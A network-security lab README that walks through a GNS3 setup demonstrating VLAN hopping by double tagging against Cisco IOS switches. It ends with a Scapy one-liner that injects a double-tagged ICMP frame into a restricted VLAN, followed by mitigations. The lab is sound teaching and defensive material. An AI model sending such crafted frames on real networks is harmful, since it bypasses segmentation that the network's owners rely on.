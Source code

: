 # VLAN Hopping: Double Tagging
Double tagging is a Layer 2 network attack technique that exploits the behavior of 802.1Q trunk ports and native VLAN handling on switches. In this attack, a threat actor crafts Ethernet frames with two VLAN tags: an outer tag that matches the native VLAN (commonly VLAN 1) and an inner tag for the target VLAN they wish to access. When the packet is sent from an access port belonging to the native VLAN, the first switch removes the outer tag and forwards the frame onto the trunk. The second switch, upon receiving the now-single-tagged frame, interprets the remaining inner tag and forwards it to the corresponding VLAN. This allows the attacker to send traffic into VLANs they shouldn't have access to, even though their physical port is not assigned to that VLAN. Double tagging is difficult to detect because return traffic typically can't follow the same path back, making it a one-way attack, useful primarily for injecting packets into restricted VLANs.

> This lab was inspired by *Practical IoT Hacking* (O'Reilly), Chapter 4: **Network Assessments**, Section *"Hopping into the IoT Network"*.

## Lab Topology
![Lab Topo](assets/double-tagging-topo.png)

## Initial Setup
### Switch Port Layout
| Switch   | Port    | Connected Device | VLAN    | Port Mode             |
|----------|---------|------------------|---------|-----------------------|
| SWITCH1  | Et0/0   | SWITCH2          | N/A     | Trunk (native VLAN 1) |
| SWITCH1  | Et0/1   | CAMERA_01        | VLAN 20 | Access                |
| SWITCH1  | Et0/2   | ATTACKER         | VLAN 1  | Access                |
| SWITCH2  | Et0/0   | SWITCH1          | N/A     | Trunk (native VLAN 1) |
| SWITCH2  | Et0/1   | CENTRAL_SERVER   | VLAN 20 | Access                |

### VPCS Static IPv4 Configuration
To keep the lab simple, both **CAMERA_01** and **CENTRAL_SERVER** are implemented using [VPCS](https://docs.gns3.com/docs/emulators/vpcs/) (Virtual PC Simulator) appliances. This provides a lightweight way to simulate basic IoT device connectivity within the network. The following command assigns an IP address and ensures the configuration persists across reboots.
<pre>
  VPCS> ip 192.168.0.x/24
  VPCS> save
</pre>

### Docker Container IPv4 Configuration
The **ATTACKER** machine is a Docker container. The imaged used in this lab is [finchsec/scapy](https://hub.docker.com/r/finchsec/scapy), which gives access to the Scapy program for crafting custom network packets to perform this attack. Configuring IP addresses for Docker appliances in GNS3 is easy as shown below:

**Right-click**, then select `Edit Config` from the context menu.

![Attacker Interfaces](assets/attacker-interfaces.png)

### Cisco IOS
**SWITCH1** and **SWITCH2** are virtual Cisco IOS Layer 2 devices. You can use either the IOSvL2 or IOU L2 GNS3 appliance templates for this lab.

## Verify Connectivity
CAMERA_01 should be able to ping CENTRAL_SERVER.

![Camera Ping](assets/camera-server-ping.gif)

ATTACKER should be able to ping both CAMERA_01 and CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping](assets/attacker-connectivity-verify.gif)

## IOS VLAN Configuration
Create a new VLAN for the IoT devices with an ID of 20. I named it BLUE to match the network topology diagram.
<pre>
  SWITCH1> enable
  SWITCH1# configure terminal
  SWITCH1(config)# vlan 20
  SWITCH1(config-vlan)# name BLUE
  SWITCH1(config-vlan)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/1, Et0/2, Et0/3
                                                  Et1/0, Et1/1, Et1/2, Et1/3
                                                  Et2/0, Et2/1, Et2/2, Et2/3
                                                  Et3/0, Et3/1, Et3/2, Et3/3
  20   BLUE                             active
</pre>

Assign BLUE to switchport Et0/1 (CAMERA_01).
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/1
  SWITCH1(config-if)# switchport mode access
  SWITCH1(config-if)# switchport access vlan 20
  SWITCH1(config-if)# exit
  SWITCH1# show vlan brief
  
  VLAN Name                             Status    Ports
  ---- -------------------------------- --------- -------------------------------
  1    default                          active    Et0/0, Et0/2, Et0/3, Et1/0
                                                  Et1/1, Et1/2, Et1/3, Et2/0
                                                  Et2/1, Et2/2, Et2/3, Et3/0
                                                  Et3/1, Et3/2, Et3/3
  20   BLUE                             active    Et0/1
</pre>

Configure interface Et0/0 as a static trunk using IEEE 802.1Q encapsulation. This protocol is the industry standard for VLAN tagging.
<pre>
  SWITCH1# configure terminal
  SWITCH1(config)# interface Et0/0
  SWITCH1(config-if)# switchport trunk encapsulation dot1q
  SWITCH1(config-if)# switchport mode trunk
  SWITCH1(config-if)# switchport trunk allowed vlan all
  SWITCH1(config-if)# exit
  SWITCH1# show interfaces trunk

  Port        Mode             Encapsulation  Status        Native vlan
  Et0/0       on               802.1q         trunking      1

  Port        Vlans allowed on trunk
  Et0/0       1-4094

  Port        Vlans allowed and active in management domain
  Et0/0       1,20

  Port        Vlans in spanning tree forwarding state and not pruned
  Et0/0       none
</pre>

Repeat these step on SWITCH2 to assign CENTRAL_SERVER to VLAN 20.

## Verify Subnet Segmentation
Assuming the VLAN was configured correctly, CAMERA_01 should still be able to ping CENTRAL_SERVER...

![Camera Ping](assets/camera-server-ping.gif)

However, ATTACKER should no longer be able to ping CAMERA_01 or CENTRAL_SERVER.
<pre>
  >>> packet = IP(dst='192.168.0.x')/ICMP()
  >>> sr1(packet).show()
</pre>
![Attacker Ping Fail](assets/attacker-ping-fail.gif)

## Exploit
Craft a double-tagged ICMP packet with Scapy

<pre>
  >>> packet = Ether(dst='ff:ff:ff:ff:ff:ff')/Dot1Q(vlan=1)/Dot1Q(vlan=20)/IP(dst='192.168.0.250')/ICMP()
  >>> sendp(packet, iface="eth0")
  .
  Sent 1 packets.
</pre>

## Mitigations
You can prevent double-tagging attacks by:
- Setting the native VLAN to an unused VLAN
- Forcing all trunks to tag all traffic (i.e., vlan dot1q tag native)
- Avoiding VLAN 1 for any user-access ports
- Shutdown unused ports / sticky mac addresses / port security etc
